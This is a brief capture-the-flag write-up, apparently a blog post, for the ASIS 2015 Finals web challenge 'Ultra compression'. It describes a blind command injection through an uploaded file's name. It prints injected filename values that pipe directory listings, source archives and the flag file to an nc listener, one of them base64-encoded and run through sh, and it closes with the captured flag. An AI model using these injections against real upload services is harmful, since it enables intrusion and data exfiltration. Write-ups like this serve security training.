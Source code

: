 ```yaml
---
layout: post
title: "ASIS 2015 Finals: Ultra compression (web125)"
modified: 2015-10-15
tags: asis asis2015finals web
---
```


*This challenge was solved by and the write up was written by teammates, nguyen and akg*

Through testing to know it's a blind cmd injection in filename of a file upload.

Set a host listen to a port and inject a cmd, ex: ```filename.txt; ls |nc ip port```

To copy the source, ```find .. -iname '*gz'|xargs cat|nc ip port```, analyze it, we have expl:

{% highlight text %}
~  echo "cat /home/asis/flag.txt | nc ip port" | base64
<base64string>
~ a.txt| echo <base64string> | base64 -d | sh
{% endhighlight %}

{% highlight text %}
ASIS{72a126946e40f67a04d926dd4786ff15}
{% endhighlight %}